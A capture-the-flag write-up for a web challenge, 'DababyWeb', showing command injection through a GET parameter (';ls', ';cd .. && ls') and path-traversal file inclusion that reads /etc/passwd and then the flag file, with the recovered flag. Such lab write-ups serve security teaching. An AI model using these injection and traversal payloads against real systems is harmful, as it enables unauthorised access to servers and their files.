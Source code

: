 
# Challenge Name: DababyWeb




![date](https://img.shields.io/badge/date-11.04.2021-brightgreen.svg)  
![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg)   
![crypto category](https://img.shields.io/badge/category-Web-blueviolet.svg)   
![score](https://img.shields.io/badge/score-150-blue.svg)




## Detailed solution

Starting by opening challenge link http://34.72.118.158:6284/ 

![image](https://user-images.githubusercontent.com/72421091/114395792-53e25280-9b8c-11eb-9907-c71e46bd83d7.png)

We can see two links **Dababy's Name Judgement** and **Dababy's Images** 

Let's check the page source  
  
```html
<html
body, html{
height= 100%;
}

<div style ="background-image: url('/img/dababy.jpg')"
height= 100%;
background=size: cover;

>


<h1 style= color:black;font-size:40px;>
"Dababy has his secret message hidden somwhere, but how can we read it?"

<a href="fun.php">Dababy's Name Judgement</a>
<p></p>
<a href="fun1.php?file=suge">Dababy's Images</a>
</h1>
</html>
```  

We have two php files **fun.php** adn **fun1.php** let's  check them

**fun.php**

http://34.72.118.158:6284/fun.php  

![image](https://user-images.githubusercontent.com/72421091/114397694-78d7c500-9b8e-11eb-81ff-9120ae670566.png)

It's **DaBaby Cool Name Convertable** it gives the output : "our input" Is a Cool Name Lesss Go! 

We can see that we have a get parametre **string** fun.php?string=input

Let's try some command injection, i started with chaining commands using ";"  

Using the command **ls** http://34.72.118.158:6284/fun.php?string=%3B+ls  

Output : ``` dababy.sh Is a Cool Name Lesss Go! ```  

We can see that our command has been executed, we found a file in our directory 

I tried the read the file using cat ``` ; cat dababy.sh ``` 

Output : ``` Dababy say's no peaking ``` 

I tried also other commands but it shows the same thing or a picture xd :  

![image](https://user-images.githubusercontent.com/72421091/114401161-30baa180-9b92-11eb-87c1-2235c23b7f20.png)

I used the command cd and ls to search for a flag file using ;cd && ls  http://34.72.118.158:6284/fun.php?string=%3Bcd+..+%26%26+ls  

Output : ``` flag.txt Is a Cool Name Lesss Go! ```  

i found the flag.txt path 

**fun1.php** 

http://34.72.118.158:6284/fun1.php?file=suge

We can see the the fun1.php has a get parametre file that show a txt file suge at the first bloc 

![image](https://user-images.githubusercontent.com/72421091/114408307-cf4a0100-9b98-11eb-88fa-beab94179679.png)

I started by checking for LFI http://34.72.118.158:6284/fun1.php?file=../../../../../etc/passwd  

Output 

``` 
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin
``` 

We were able to perform a local file inclusion to read the passwd file, now let's read our flag.txt 

http://34.72.118.158:6284/fun1.php?file=../flag.txt 

And we got our flag

## Flag

```
RS{J3TS0N_M4D3_4N0TH3R_0N3}
```
